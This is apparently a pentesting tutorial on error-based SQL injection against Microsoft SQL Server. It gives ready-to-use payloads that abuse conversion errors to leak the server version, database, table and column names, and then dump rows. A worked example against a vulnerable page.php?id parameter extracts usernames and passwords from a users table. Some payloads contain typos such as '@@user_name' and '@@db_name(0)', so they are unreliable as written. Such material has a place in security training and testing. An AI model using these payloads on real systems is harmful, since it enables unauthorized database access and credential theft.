# MSSQL Server

In MSSQL, the name of the database objects are revealed within errors. the user sa is the super admin and has access to the master database. The master database contains schemas of user-defined dbs.

First thing we can do to start exploting it is to discover the database version, we can trigger a type conversion error for that:

```text
99999 or 1 in (SELECT TOP 1 CAST(<FIELDNAME> as varchar(4096)) from <TABLENAME> WHERE <FIELDNAME> NOT IN (<LIST>)); --
```

* `99999` is a bogus value.
* `or 1 in` is the part of the query that will trigger the error, we are trying to find 1, an integer, within a varchar column.
* `CAST(<FIELDNAME> as varchar(4096))` is where we insert the column that we want to dump \(either user-based or special database column\). 
* `<FIELDNAME>` can also be a SQL function like `user_name()` or a variable like `@@version`
* `WHERE <FIELDNAME> NOT IN (<LIST>)` this part is used to dump the database and can be ommited or ajusted.

To retrieve the SQL version:

```text
99999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))) --
```

```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value 'Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (X64) Jun 28 2012 08:36:30 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor) ' to data type int.
```

So, with all this information, how can I dump the entire database?

First of all, we need to discover some stuff:

* Current database username

```text
99999 or 1 in (SELECT TOP 1 CAST(@@user_name as varchar(4096))) --
```

* Current databases and all other databases the user can read

```text
99999 or 1 in (SELECT TOP 1 CAST(@@db_name(0) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(@@db_name(1) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(@@db_name(2) as varchar(4096))) --
```

* The tables into a given database

To enumerate all tables in a database, we can use the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST(name as varchar (4096)) FROM <database name>..sysobjects WHERE xtype='U' and name NOT IN (<known table list>)); --
```

* `xtype means='U'` means we only want user-defined tables
* `name NOT IN ('<know table list>')` name is a column of the sysobjects table. Everytime we find a new table we will append it to the NOT IN list. This is needed because the error display only the first table name.
* The columns of a given table

After retrieving the tables, we can retrieve the columns using the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as varchar (4096)) FROM <db name>..syscolumns,<db name>..sysobjects WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <dbname>. .sysobjects.name=<table name> AND <db name>..syscolumns.name NOT IN (<known column list>)); --
```

* `<db name>` is the name of database we're working on
* `<table name>` is the table which we're trying to find the columns
* `<known column list>` list of columns we already discovered

Finally, to dump the database, we can use the following query:

```text
9999 or 1 in (SELECT TOP 1 CAST (<column name> as varchar (4096) ) FROM <db name>..<table name> WHERE <column name> NOT IN (<retrieved data list>)); -- -
```

###  Example

Lets say we have an exploitable page.php?id=1 and identified the table users in the database cms

This table contains:

* id - integer
* username - varchar
* password - varchar

To retrieve the ID values, we can use the following payload:

```text
9999 or 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar(64) FROM cms..users WHERE id NOT IN ('')); -- -
```

We need to concatenate the id value with @ to make sure the selected value has the data type varchar, this makes the error possible:

```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value '1@' to data type int.
```

Proceed to filter out `1` and query again:

```text
9999 OR 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar (64) FROM cms..users WHERE id NOT IN ('1')); -- -
```

So, the resulting error is something like

```text
Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value '2@' to data type int.
```

After enumerating the ID, basically request the username or/and password:

```text
9999 OR 1 IN (SELECT TOP 1 CAST(username as varchar) FROM cms..users WHERE id=1); -- -
9999 OR 1 IN (SELECT TOP 1 CAST(password as varchar) FROM cms..users WHERE id=1); -- -
9999 OR 1 IN (SELECT username%2bchar(64) %2bpassword FROM cms..users WHERE id=1); -- -
```

